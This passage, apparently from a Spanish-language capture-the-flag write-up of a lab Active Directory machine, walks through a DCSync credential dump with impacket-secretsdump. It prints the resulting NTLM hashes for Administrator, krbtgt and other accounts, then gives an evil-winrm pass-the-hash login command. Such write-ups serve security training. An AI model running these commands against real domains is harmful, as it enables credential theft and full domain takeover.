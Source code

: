 ### DCSync Attack

Para esto, utilizaremos **impacket-secretsdump** para solicitar y recibir información de replicación del controlador de dominio (DC), como si fuéramos otro controlador de dominio legítimo. El DC responderá con los datos solicitados, que incluirán hashes de contraseñas NTLM y Kerberos de los usuarios, incluidas las cuentas privilegiadas.

```zsh
impacket-secretsdump 'EGOTISTICAL-BANK/svc_loanmgr@10.10.10.175' -just-dc-ntlm  

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:f4edfd6be278c363d7691ba345a2031a:::
[*] Cleaning up...
```

| **Opción**                           | **Descripción**                                                                                           |
|--------------------------------------|-----------------------------------------------------------------------------------------------------------|
| `impacket-secretsdump`               | Nombre de la herramienta utilizada para extraer hashes NTLM y otra información de Active Directory.       |
| `'EGOTISTICAL-BANK/svc_loanmgr@10.10.10.175'` | Nombre de usuario y dominio objetivo para la autenticación, incluyendo la IP del controlador de dominio.  |
| `-just-dc-ntlm`                      | Extrae solo los hashes NTLM del controlador de dominio.                                                    |

El **Pass-the-Hash** permite a los atacantes utilizar el hash NTLM de una contraseña para autenticarse en servicios remotos como si fuera la contraseña original. Esto es posible porque muchos sistemas de autenticación aceptan hashes directamente, debido a la implementación de protocolos como NTLM. Esta vulnerabilidad presenta un riesgo significativo, ya que los atacantes pueden acceder a sistemas y recursos sin necesidad de conocer la contraseña real del usuario.

```zsh
evil-winrm  -i 10.10.10.175 -u 'Administrator' -H '823452073d75b9d1cf70ebdf86c7f98e' 
```

<figure>
<img src="/assets/img/Sauna/imagen14.png" >
</figure>
